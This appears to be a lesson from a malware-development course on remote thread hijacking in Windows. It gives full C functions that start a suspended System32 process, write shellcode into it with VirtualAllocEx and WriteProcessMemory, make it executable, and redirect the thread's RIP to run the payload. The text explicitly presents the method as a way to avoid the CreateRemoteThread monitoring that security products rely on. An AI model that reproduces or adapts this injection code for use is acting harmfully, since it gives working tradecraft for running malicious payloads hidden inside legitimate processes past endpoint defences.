

Introduction
The previous module demonstrated thread hijacking on a local process by creating a suspended sacrificial thread that runs a benign dummy function and utilized its handle to execute the payload. This module will demonstrate the same technique against a remote process rather than the local process.
Another noticeable difference in this module is that a sacrificial thread will not be created in the remote process. Although that can be done using the CreateRemoteThread WinAPI call, it is a commonly abused function and therefore highly monitored by security solutions.
A better approach is to create a sacrificial process in a suspended state using CreateProcess which will create all of its threads in a suspended state, allowing them to be hijacked.
Remote Thread Hijacking Steps
This section describes the required steps to perform thread hijacking on a thread residing in a remote process.
CreateProcess WinAPI
CreateProcess is a powerful and important WinAPI that has various uses. To ensure users have a solid understanding, the function's important parameters are explained below.
BOOL CreateProcessA(
[in, optional] LPCSTR lpApplicationName,
[in, out, optional] LPSTR lpCommandLine,
[in, optional] LPSECURITY_ATTRIBUTES lpProcessAttributes,
[in, optional] LPSECURITY_ATTRIBUTES lpThreadAttributes,
[in] BOOL bInheritHandles,
[in] DWORD dwCreationFlags,
[in, optional] LPVOID lpEnvironment,
[in, optional] LPCSTR lpCurrentDirectory,
[in] LPSTARTUPINFOA lpStartupInfo,
[out] LPPROCESS_INFORMATION lpProcessInformation
);lpApplicationName and lpCommandLine parameters represent the process name and its command line arguments, respectively. For example, lpApplicationName can be C:\Windows\System32\cmd.exe and lpCommandLine can be /k whoami. Alternatively, lpApplicationName can be set to NULL but lpCommandLine can have the process name and its arguments, C:\Windows\System32\cmd.exe /k whoami. Both parameters are marked as optional meaning a newly created process does not need to have any arguments.dwCreationFlags is the parameter that controls the priority class and the creation of the process. The possible values for this parameter can be found here. For example, using the CREATE_SUSPENDED flag creates the process in a suspended state.lpStartupInfo is a pointer to STARTUPINFO which contains details related to the process creation. The only element that needs to be populated is DWORD cb, which is the size of the structure in bytes.lpProcessInformation is an OUT parameter that returns a PROCESS_INFORMATION structure. The PROCESS_INFORMATION structure is shown below.typedef struct _PROCESS_INFORMATION {
HANDLE hProcess; // A handle to the newly created process.
HANDLE hThread; // A handle to the main thread of the newly created process.
DWORD dwProcessId; // Process ID
DWORD dwThreadId; // Main Thread's ID
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;Using Environment Variables
The last remaining piece for creating a process is determining the process's full path. The sacrificial process will be created from a binary that resides in the System32 directory. It's possible to assume the path will be C:\Windows\System32 and hard code that value, but it's always safer to programmatically verify the path. To do so, the GetEnvironmentVariableA WinAPI will be used. GetEnvironmentVariableA retrieves the value of a specified environment variable which in this case will be "WINDIR".
WINDIR is an environment variable that points to the installation directory of the Windows operating system. On most systems, this directory is "C:\Windows". It's possible to access the value of the WINDIR environment variable by typing "echo %WINDIR%" in the command prompt or simply typing %WINDIR% in the file explorer search bar.
DWORD GetEnvironmentVariableA(
[in, optional] LPCSTR lpName,
[out, optional] LPSTR lpBuffer,
[in] DWORD nSize
);Creating a Sacrificial Process Function
CreateSuspendedProcess will be used to create the sacrificial process in a suspended state. It requires 4 arguments:
lpProcessName - The name of the process to create.dwProcessId - A pointer to a DWORD which receives the process ID.hProcess - A pointer to a HANDLE that receives the process handle.hThread - A pointer to a HANDLE that receives the thread handle.BOOL CreateSuspendedProcess (IN LPCSTR lpProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
CHAR lpPath [MAX_PATH * 2];
CHAR WnDr [MAX_PATH];
STARTUPINFO Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
// Cleaning the structs by setting the member values to 0
RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
// Setting the size of the structure
Si.cb = sizeof(STARTUPINFO);
// Getting the value of the %WINDIR% environment variable
if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Creating the full target process path
sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
printf("\n\t[i] Running : \"%s\" ... ", lpPath);
if (!CreateProcessA(
NULL, // No module name (use command line)
lpPath, // Command line
NULL, // Process handle not inheritable
NULL, // Thread handle not inheritable
FALSE, // Set handle inheritance to FALSE
CREATE_SUSPENDED, // Creation flag
NULL, // Use parent's environment block
NULL, // Use parent's starting directory
&Si, // Pointer to STARTUPINFO structure
&Pi)) { // Pointer to PROCESS_INFORMATION structure
printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
return FALSE;
}
printf("[+] DONE \n");
// Populating the OUT parameters with CreateProcessA's output
*dwProcessId = Pi.dwProcessId;
*hProcess = Pi.hProcess;
*hThread = Pi.hThread;
// Doing a check to verify we got everything we need
if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
return TRUE;
return FALSE;
}Injecting Remote Process Function
The next step after creating the target process is to inject the payload using the InjectShellcodeToRemoteProcess function from the Process Injection - Shellcode beginner module. The payload is only written to the remote process without being executed. The base address is then stored for later use via thread hijacking.
BOOL InjectShellcodeToRemoteProcess (IN HANDLE hProcess, IN PBYTE pShellcode, IN SIZE_T sSizeOfShellcode, OUT PVOID* ppAddress) {
SIZE_T sNumberOfBytesWritten = NULL;
DWORD dwOldProtection = NULL;
*ppAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (*ppAddress == NULL) {
printf("\n\t[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[i] Allocated Memory At : 0x%p \n", *ppAddress);
if (!WriteProcessMemory(hProcess, *ppAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
printf("\n\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
return FALSE;
}
if (!VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("\n\t[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Remote Thread Hijacking Function
After creating the suspended process and writing the payload to the remote process, the final step is to use the thread handle which was returned by CreateSuspendedProcess to perform thread hijacking. This part is the same as the one demonstrated in the local thread hijacking module.
To recap, GetThreadContext is used to retrieve the thread's context, update the RIP register to point to the written payload, call SetThreadContext to update the thread's context and finally use ResumeThread to execute the payload. All of this is demonstrated in the custom function below, HijackThread, which takes two arguments:
hThread - The thread to hijack.pAddress - A pointer to the base address of the payload to be executed.BOOL HijackThread (IN HANDLE hThread, IN PVOID pAddress) {
CONTEXT ThreadCtx = {
.ContextFlags = CONTEXT_CONTROL
};
// getting the original thread context
if (!GetThreadContext(hThread, &ThreadCtx)) {
printf("\n\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
// updating the next instruction pointer to be equal to our shellcode's address
ThreadCtx.Rip = pAddress;
// setting the new updated thread context
if (!SetThreadContext(hThread, &ThreadCtx)) {
printf("\n\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
// resuming suspended thread, thus running our payload
ResumeThread(hThread);
WaitForSingleObject(hThread, INFINITE);
return TRUE;
}Conclusion
A quick recap of what was demonstrated in this module:
CreateProcessA, which created all of its threads in a suspended state as well.VirtualAllocEx and WriteProcessMemory but was not executed.CreateProcessA to execute the payload via thread hijacking.Demo
This demo uses Notepad.exe as the sacrificial process, hijacks its thread and executes the Msfvenom calc shellcode.
